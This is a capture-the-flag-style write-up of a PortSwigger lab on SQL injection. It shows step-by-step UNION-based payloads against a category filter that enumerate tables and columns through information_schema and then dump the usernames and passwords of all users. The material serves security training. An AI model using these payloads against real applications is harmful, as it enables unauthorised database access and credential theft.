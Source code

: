 
# SQL injection attack, listing the database contents on non-Oracle databases

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/examining-the-database

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


We see there are 2 values displayed in the table, the description and the content of the post:



![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/1.png)


We find these payload are valid to display the 4 posts in Gifts and the second all the items:

```
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
```

Also, that there are 2 columns returned by the query and we can do a UNION attack with the payload:

```
/filter?category=Gifts'+union+all+select+NULL,NULL-- 
```

We can get the table names listing TABLE_NAME from information_schema.tables:

```
/filter?category=Gifts'+union+all+select+'1',TABLE_NAME+from+information_schema.tables--
```




![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/2.png)

Next list the columns in the table “users_vptjgu” with something like:

```
SELECT * FROM information_schema.columns WHERE table_name = 'users_vptjgu'
```

```
/filter?category=Gifts'+union+all+select+'1',COLUMN_NAME+from+information_schema.columns+WHERE+table_name+=+'users_vptjgu'--
```

We get 2 column names:



![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/3.png)

Next we must show the content of the table:

```
SELECT username_lvfons,password_femvin FROM users_vptjgu
```

```
/filter?category=Gifts'+union+all+select+username_lvfons,password_femvin+from+users_vptjgu--
```



![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/4.png)